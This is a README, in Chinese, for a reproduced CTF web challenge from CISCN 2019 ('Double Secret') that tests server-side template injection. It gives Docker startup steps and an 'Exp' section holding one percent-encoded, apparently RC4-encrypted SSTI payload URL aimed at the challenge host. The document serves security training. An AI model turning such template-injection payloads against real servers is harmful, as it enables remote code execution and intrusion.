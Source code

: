 # CISCN 2019 华东南  Double Secret

## 题目详情

- **2019 CISCN 2019 华东南 Double Secret**

## 供题
南溟

## 考点

- SSTI

## 启动

	docker-compose up -d
	open http://127.0.0.1:8083/

## Exp

http://web54.buuoj.cn/secret?secret=%2e%14%19%12%c3%ad%49%34%51%68%c2%91%c3%99%00%c2%ad%c2%8d%c3%89%c3%a6%0b%c2%ac%59%26%c2%b8%6d%c3%9f%49%58%c2%ac%76%c2%b6%6d%c3%9f%27%c3%a5%2e%c2%87%4c%c3%85%1b%c3%b4%3b%c3%9b%44%c2%92%c3%84%c3%99%39%5e%c2%80%52%c3%a7%c3%b2%40%60%63%c3%ac%64%78%c2%8f%2b%0a%c2%8d%c3%b7%58%14%c3%b4%c2%90%51%c3%b3%09%27%59

## 版权

该题目复现环境尚未取得主办方及出题人相关授权，如果侵权，请联系本人删除（ i@zhaoj.in ）

